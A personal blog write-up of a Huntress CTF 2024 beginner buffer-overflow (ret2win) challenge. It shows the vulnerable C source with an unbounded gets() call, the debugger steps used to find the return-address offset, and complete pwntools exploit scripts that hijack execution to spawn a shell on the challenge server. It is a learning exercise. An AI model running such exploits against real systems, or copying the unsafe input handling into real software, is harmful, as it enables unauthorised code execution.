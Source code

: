 ```yaml
---
title: "Huntress CTF 2024"
pubDate: 2024-11-18
description: "My first time actually playing real Binary Exploitation in a CTF Abecause team HCS wanted me to start learning, unfortunately there were a few issues with this one challenge I solved, but it pushed me on the right track for learning Binary Exploitation."
tags:
  - ctf
  - pwn
---
```



## Baby Buffer Overflow - 32 bit

> _Can you command this program to where it cannot go?_\
> _To get the flag, you must somehow take control of its excecution._\
> _Is it even possible?_
>
> _Author: @aenygma_

<PostFileDownload name="2024-huntress-babybufov.zip" />

This is a simple ret2win beginner challenge on a 32 bit binary. This was the source code:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

When I first tried running it, I was hit with an error where I couldn't run the binary or even compile the binary. Turns out, I just had to install `gcc-multilib` and then I was able to compile a binary using the command mentioned in the source code.

After that, I followed [ir0nstone's](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win) guide on ret2win. So after using a De-Brujin sequence and pasting it into radare2, I was able to obtain an offset to the EIP _(I didn't understand what an offset was doing back then... but now I do...)_, with these commands:

```
$ ragg2 -P 64 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
```

```
[0xf7fa05b0]> dc
Gimme some data!
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAV
[+] SIGNAL 11 errno=0 addr=0x414b4141 code=1 si_pid=1095450945 ret=0
[0x414b4141]> wopO `dr eip`
28
```

With the offset, I needed to overwrite EIP with the return address of the target function, that I was able to find using radare2:

```
[0xf7f405b0]> afl
...
0x080491a6    1     65 sym.target
...
```

Using all the information found so far, I was able to create a script using pwntools:

```python
from pwn import *

p = process('./babybufov')
#p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491a6)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

After pwning the local binary and being able to run `cat flag.txt`, I tried the remote but was given EOF. But as I realised, the function address I compiled using my device is different from the provided binary. Even though I wasn't able to execute the given binary, I was still able to extract function addresses using an objdump:

```
$ objdump -t babybufov | grep target
080491f5 g     F .text  00000041 target
```

Using this knowledge, the final payload became:

```python
from pwn import *

#p = process('./babybufov')
p = remote('challenge.ctf.games', 31180)

payload = b'A' * (28)
payload += p32(0x080491f5)

log.info(p.clean())
p.sendline(payload)
p.interactive()
```

Using this payload, I was able to successfully pwn the remote connection to retrieve the flag!

![Image of terminal where I was able to get the flag](../../images/2024/huntress-ctf-1.png)
